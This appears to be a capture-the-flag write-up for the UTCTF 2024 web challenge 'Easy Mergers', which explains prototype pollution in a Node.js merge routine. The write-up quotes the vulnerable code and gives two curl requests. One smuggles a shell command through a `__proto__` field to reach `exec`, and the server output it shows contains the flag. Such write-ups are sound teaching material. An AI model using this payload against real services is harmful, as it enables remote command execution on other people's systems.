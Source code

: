 # Easy Mergers v0.1 | Web | UTCTF 2024

We are given `merger.zip` and a URL `http://guppy.utctf.live:8725`. The server side code is written in JS. Reading through the source code, there is a `flag.txt` file, but the server does not give access to this file. A potential vulnerability is the use of `exec` in `merger.js` which executes shell commands. If we are able to set `secret.cmd`, then we will be able to make the server execute any command we wish, such as `cat flag.txt` to get the flag.

I was actually stuck on this challenge for a while, until I searched for "js rce". This led to an article about prototype pollution in JS (https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce). I then searched for "js prototype pollution" and learned that the commonly used `__proto__` attribute of any object can be used to effectively add attributes to all objects in a JS program. Therefore, we can set `secret.cmd` by setting `__proto__.cmd` or `__proto__["cmd"]` of any object, and lines 14-17 of `merger.js` will let us do exactly that:

```js
if (!(orig[data.attributes[k]] === undefined) && isObject(orig[data.attributes[k]]) && isObject(data.values[k])) {
    for (const key in data.values[k]) {
        orig[data.attributes[k]][key] = data.values[k][key];
    }
}
```

In the following commands, replace `<cookie>` with an actual cookie from the website.

```
$ curl -X POST guppy.utctf.live:8725/api/makeCompany \
-b "connect.sid=<cookie>" \
-H "Content-Type: application/json" \
-d '{"attributes": [], "values": []}' \
-i
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Thu, 04 Apr 2024 01:00:41 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked

0
$ curl -X POST guppy.utctf.live:8725/api/absorbCompany/0 \
-b "connect.sid=<cookie>" \
-H "Content-Type: application/json" \
-d '{"attributes": ["__proto__"], "values": [{"cmd": "cat flag.txt"}]}' \
-i
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Thu, 04 Apr 2024 01:04:31 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked

{"merged":{"cid":4},"err":null,"stdout":"utflag{p0lluted_b4ckdoorz_and_m0r3}","stderr":""}
```

```
utflag{p0lluted_b4ckdoorz_and_m0r3}
```

JS is a mess.